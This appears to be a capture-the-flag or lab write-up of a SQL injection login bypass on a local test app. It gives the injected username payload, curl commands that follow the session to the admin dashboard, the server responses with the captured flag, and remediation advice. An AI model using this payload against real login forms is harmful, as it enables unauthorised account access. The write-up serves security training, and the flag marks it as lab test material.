

# Front Door Login Bypass — SQL Injection
- Endpoint: POST /login
- Severity: Critical
- Flag: FLAG{sqli_22f283cb57b4}
## Request / payload / command
```
curl -s -i -c cookies.txt \
  --data "username=admin' -- " --data "password=x" \
  http://127.0.0.1:5000/login
# then follow the session to the dashboard:
curl -s -b cookies.txt http://127.0.0.1:5000/dashboard
```
Injected username value: `admin' -- ` (trailing space after `--`), any password.
## What happened
The login form builds its SQL query by concatenating the submitted username.
The payload `admin' -- ` closes the username string literal and comments out the
rest of the query (including the password check), so the app authenticates as
`admin` without knowing the password. The POST returned `302 -> /dashboard` and
set `auth=YWRtaW46YWRtaW4=` (base64 "admin:admin"). The dashboard then rendered
the admin's private note containing the flag.
Discovery: first probe with the classic comment-out payload succeeded on attempt 1.
## Evidence
```
HTTP/1.1 302 FOUND
Location: /dashboard
Set-Cookie: auth=YWRtaW46YWRtaW4=; Path=/

# GET /dashboard:
<h1>Dashboard</h1>
<p>Signed in as <strong>admin</strong> (role: admin).</p>
<div class="note"><h2>Your private note</h2>
  <p>Nice work bypassing the login. FLAG{sqli_22f283cb57b4}</p></div>
```
## Remediation
Use parameterised queries / prepared statements (never string concatenation) for
the credential lookup, and verify a hashed password with a constant-time compare.


